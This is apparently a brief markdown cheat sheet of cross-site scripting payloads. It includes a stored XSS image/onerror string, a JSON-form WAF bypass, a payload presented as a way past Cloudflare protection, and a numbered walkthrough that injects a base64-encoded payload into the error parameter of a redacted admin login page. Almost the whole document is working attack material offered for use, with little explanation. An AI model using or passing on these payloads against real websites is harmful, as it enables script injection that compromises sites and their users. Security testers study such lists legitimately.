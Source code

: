 ## Stored XSS
\u003e\u003cimg src=1 onerror=alert(0)\u003e

## WAF bypasses in JASON
["');alert('XSS');//"]@xyz.xxx

## Cloudflare Protection Bypas
"><Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))>

## Base64 Endcode
scenario:
1. visit the web target: redact[.]com/admin/login
2. login with wrong credential and you can see the link web application change to redact[.]com/admin/login?error= base64 here.
3. change the error massage to xss payload but you must endcode it first to base64
4. add your payload base64 and hit enter on that and boom rxss succesfully
